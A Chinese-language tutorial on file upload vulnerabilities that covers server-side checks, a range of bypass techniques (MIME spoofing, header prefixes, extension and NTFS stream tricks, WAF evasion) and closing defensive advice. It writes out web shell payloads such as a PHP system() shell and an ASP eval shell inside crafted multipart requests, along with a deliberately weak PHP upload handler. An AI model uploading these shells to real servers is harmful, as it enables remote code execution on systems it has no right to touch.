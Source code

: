 ```yaml
---
title: 文件上传漏洞
tags: 漏洞,文件上传
grammar_cjkRuby: true
---
```


# 一、文件上传的几种校验
## 客户端校验
　　一般都是在网页上写一段javascript脚本，校验上传文件的后缀名，有白名单形式也有黑名单形式。
　　判断方式：在浏览加载文件，但还未点击上传按钮时便弹出对话框，内容如：只允许上传.jpg/.jpeg/.png后缀名的文件，而此时并没有发送数据包。
## 服务端校验

### ①content-type字段校验

以PHP代码为例，模拟web服务器端的校验代码

``` javascript
<?php
        if($_FILES['userfile']['type'] != "image/gif")  #这里对上传的文件类型进行判断，如果不是image/gif类型便返回错误。
                {   
                 echo "Sorry, we only allow uploading GIF images";
                 exit;
                 }
         $uploaddir = 'uploads/';
         $uploadfile = $uploaddir . basename($_FILES['userfile']['name']);
         if (move_uploaded_file($_FILES['userfile']['tmp_name'], $uploadfile))
             {
                 echo "File is valid, and was successfully uploaded.\n";
                } else {
                     echo "File uploading failed.\n";
    }
     ?>
```
代码对上传文件的文件类型进行了判断，如果不是图片类型，返回错误。

### ②文件头校验
不同的图片文件都有不同的文件头，如：
![enter description here](./images/wenjiantou.png)
可以通过自己写正则匹配，判断文件头内容是否符合要求，这里举几个常见的文件头对应关系。


# 二、文件上传校验的绕过

## 客户端绕过
利用burp抓包改包，先上传一个gif类型的木马，然后通过burp将其改为asp/php/jsp后缀名再放包即可。

## 服务端绕过

### ①文件类型绕过
通过burpsuite抓包，将content-type字段改为image/gif
实例数据包：

```
POST /upload.php HTTP/1.1
TE: deflate,gzip;q=0.3
Connection: TE, close
Host: localhost
User-Agent: libwww-perl/5.803
Content-Type: multipart/form-data; boundary=xYzZY
Content-Length: 155
--xYzZY
Content-Disposition: form-data; name="userfile"; filename="shell.php"
Content-Type: image/gif (原为 Content-Type: text/plain)
<?php system($_GET['command']);?>
--xYzZY-
```

### ②文件头绕过

在木马内容基础上再加了一些文件信息，有点像下面的结构
```GIF89a<?php phpinfo(); ?>```

### ③文件后缀名绕过

黑名单检测：一般有个专门的 blacklist 文件，里面会包含常见的危险脚本文件。
绕过方法：
（1）找黑名单扩展名的漏网之鱼 - 比如 asa 和 cer 之类
（2）可能存在大小写绕过漏洞 - 比如 aSp 和 pHp 之类
能被解析的文件扩展名列表：
jsp jspx jspf
asp asa cer aspx
php php php3 php4
exe exee

## 配合文件包含漏洞绕过
绕过方式：（这里拿php为例，此漏洞主要存在于PHP中）
（1）先上传一个内容为木马的txt后缀文件，因为后缀名的关系没有检验内容；
（2）然后再上传一个.php的文件，内容为<?php Include(“上传的txt文件路径”);?>
此时，这个php文件就会去引用txt文件的内容，从而绕过校验

## 配合操作系统文件命令规则进行绕过
（1）上传不符合windows文件命名规则的文件名
　　test.asp.
　　test.asp(空格)
　　test.php:1.jpg
　　test.php::$DATA
　　shell.php::$DATA…….
会被windows系统自动去掉不符合规则符号后面的内容。
（2）linux下后缀名大小写
在linux下，如果上传php不被解析，可以试试上传pHp后缀的文件名。

## WAF绕过

### ①垃圾数据填充（类似缓冲区溢出）

主机WAF软件主要是为了服务器的安全，但是有时候为了不影响web服务器的性能，会对校验的用户数据设置大小上限，比如2M。此种情况可以构造一个大文件，前面2M的内容为垃圾内容，后面才是真正的木马内容，便可以绕过WAF对文件内容的校验。

### ②filename参数污染&参数移位
对于早期版本的安全狗，可以多加一个ﬁlename进行绕过 
![enter description here](./images/waf绕过.png)
或者尝试将filenema换位置，在IIS6.0下把数据包中的filename参数放在其他地方也成功上传过：
![enter description here](./images/canshuyiwei.png)

### ③利用waf缺陷或其他web服务器解析特性绕过

#### Boundary边界不一致
每次文件上传时的Boundary边界都是一致的：
 ```
 Content-Type: multipart/form-data; boundary=--------------------------4714631421141173021852555099 Content-Length: 253 -----------------------------4714631421141173021852555099 Content-Disposition: form-data; name="file1"; filename="shell.asp" Content-Type: application/octet-stream
 
<%eval request("a")%> -----------------------------4714631421141173021852555099-
 ```
 如果容器在处理的过程中并没有严格要求一致的话可能会导致一个问题，两段Boundary不一致使得waf认为这段 数据是无意义的，可是容器并没有那么严谨。
 ![enter description here](./images/xiugaiboundary.png)

#### 文件名处回车
![enter description here](./images/wenjianminghuiche.png)

#### 多个Content-Disposition
在IIS的环境下，上传文件时如果存在多个Content-Disposition的话，IIS会取第一个Content-Disposition中的值作 为接收参数，而如果waf只是取最后一个的话便会被绕过
![enter description here](./images/duocontent.png)

#### 利用NTFS ADS特性
ADS是NTFS磁盘格式的一个特性，用于NTFS交换数据流。在上传文件时，如果waf对请求正文的ﬁlename匹配不 当的话可能会导致绕过

|    上传的文件名  |   服务器表面现象  |     生成的文件内容|
| --- | --- | --- |
|   Test.php:a.jpg  | 生成Test.php    |空     |
|Test.php::DATA     | 生成test.php    |  `<?php phpinfo();?>`   |
|  Test.php::$INDEX_ALLOCATION   |生成test.php 文件夹    |     |
|    Test.php::$DATA.jpg |   生成0.jpg  |  `<?php phpinfo();?>`   |
|   Test.php::$DATA\aaa.jpg  |  生成aaa.jpg   |   `<?php phpinfo();?>`  |

# 三、防护建议
 1. 使用白名单限制可以上传的文件扩展（白名单比黑名单可靠多了）
 2. 验证文件内容，使用正则匹配恶意代码限制上传
 3.  对上传后的文件统一随机命名，不允许用户控制扩展名 
 4.  修复服务器可能存在的解析漏洞 
 5.  严格限制可以修改服务器配置的文件上传如：.htaccess
 6.  隐藏上传文件路径 
 7.  升级Web Server
 8.  及时修复Web上传代码
 9.  不能有本地文件包含漏洞
 10. PHP更新到最新版本
 11.  上传文件的存储目录禁用执行权限  